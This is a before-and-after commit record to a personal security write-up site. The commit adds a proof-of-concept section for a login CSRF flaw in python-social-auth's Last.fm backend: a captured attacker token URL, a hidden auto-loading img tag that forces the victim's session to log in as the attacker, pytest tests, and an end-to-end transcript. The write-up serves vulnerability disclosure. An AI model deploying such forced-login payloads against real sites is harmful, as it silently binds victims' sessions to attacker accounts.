

Before and after one commit to kemrec/kemrec.github.io, a Jekyll site: the page built from _writeups/python-social-auth-lastfm-login-csrf.md, in a window 1280 px wide and 1400 px high, scrolled down 2514 px. Shown: the whole window, without its empty margins (242-1037 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3451 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Expand Last.fm login-CSRF writeup with PoC (single-URL attack, pytest, live E2E transcript)
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01PCQgkrsaNSGeVhDsMme4ob

````diff
--- a/_writeups/python-social-auth-lastfm-login-csrf.md
+++ b/_writeups/python-social-auth-lastfm-login-csrf.md
@@ -87,6 +87,97 @@ callback is a plain, idempotent `GET` that carries only a `token`, no callback o
 this backend can be distinguished as "the one this browser started." That is the
 definition of login CSRF.
 
+## Proof of concept
+
+### The attack is a single URL
+
+The callback is a plain, idempotent `GET` whose only meaningful parameter is
+`token`, so there is nothing to forge beyond a link:
+
+1. The attacker approves the target application on **their own** Last.fm account
+   and captures where Last.fm redirects them back to:
+
+   ```
+   https://app.example/complete/lastfm/?token=ATK-a60a928997
+   ```
+
+2. The attacker gets the victim's browser to issue that same `GET`. Because it's
+   an idempotent GET, it fires from an ordinary auto-loading tag on any page the
+   victim opens — no click required:
+
+   ```html
+   <!-- the victim only has to load a page containing this -->
+   <img src="https://app.example/complete/lastfm/?token=ATK-a60a928997"
+        style="display:none">
+   ```
+
+The victim's session is now authenticated as the attacker. No token of the
+victim's own was ever involved.
+
+### Library-level proof
+
+Dropped into the backend's own test harness (`BaseBackendTest`, the same base
+the project's `test_lastfm.py` uses). The "victim" session never starts a flow;
+the callback carries only the attacker's approved token:
+
+```python
+class LastFmLoginCSRFTest(BaseBackendTest):
+    backend_path = "social_core.backends.lastfm.LastFmAuth"
+
+    def test_start_binds_nothing_to_the_session(self):
+        start_url = self.backend.start().url
+        self.assertEqual(start_url, "https://www.last.fm/api/auth/?api_key=a-key")
+        # neither a state nor a server-generated token is stored for later verification
+        self.assertIsNone(self.strategy.session_get("lastfm_state"))
+        self.assertIsNone(self.strategy.session_get("lastfm_token"))
+
+    def test_attacker_token_logs_victim_session_in_as_attacker(self):
+        self.mock_get_session()                          # ws.audioscrobbler.com -> {"name": "attacker-lastfm"}
+        self.strategy.set_request_data({"token": "attacker-approved-token"}, self.backend)
+        user = self.backend.complete()
+        self.assertEqual(user.username, "attacker-lastfm")               # session is now the attacker
+        self.assertEqual(self.strategy.session_get("username"), "attacker-lastfm")
+
+    def test_victim_started_own_flow_does_not_change_the_outcome(self):
+        self.backend.start()                             # even a genuine victim-initiated flow...
+        self.mock_get_session()
+        self.strategy.set_request_data({"token": "attacker-approved-token"}, self.backend)
+        self.assertEqual(self.backend.complete().username, "attacker-lastfm")   # ...still loses
+```
+
+All four assertions pass against `5.1.1` / `master`:
+
+```
+test_a_second_arbitrary_token_is_equally_accepted        PASSED
+test_attacker_token_logs_victim_session_in_as_attacker   PASSED
+test_start_binds_nothing_to_the_session                  PASSED
+test_victim_started_own_flow_does_not_change_the_outcome PASSED
+4 passed
+```
+
+### End-to-end (real Django session, real HTTP)
+
+A minimal Django app on the stock `LastFmAuth` backend, run against a mock
+Last.fm speaking HTTPS. The attacker approves on their own account (ARM 1), the
+victim's browser opens the captured URL (ARM 2), and the victim's *server-side*
+session becomes the attacker's (ARM 3–4). The controls confirm a normal own-flow
+login still maps to its own identity, and a tokenless callback is refused:
+
+```
+ARM 0   victim (fresh browser)          -> ANONYMOUS
+ARM 1   attacker approves on OWN acct   -> 302  Location: /complete/lastfm/?token=ATK-a60a928997
+ARM 2   VICTIM opens that URL           -> 302  Location: /
+ARM 3   victim session right after      -> AUTHENTICATED  username=attacker  id=1
+ARM 4   server-side (Django auth_user)  -> _auth_user_id=1 -> username=attacker
+
+CONTROL A   visitor completes OWN flow  -> AUTHENTICATED  username=victim  id=2
+CONTROL B   callback with no token      -> 500  (nothing to exchange)
+
+mock Last.fm side of the exchange:
+  approval issued   token=ATK-a60a928997
+  auth.getSession   token=ATK-a60a928997 -> user=attacker   <-- exchanged inside the VICTIM's session
+```
+
 ## Impact
 
 - **Forced authentication.** Any visitor who can be lured into opening the
````
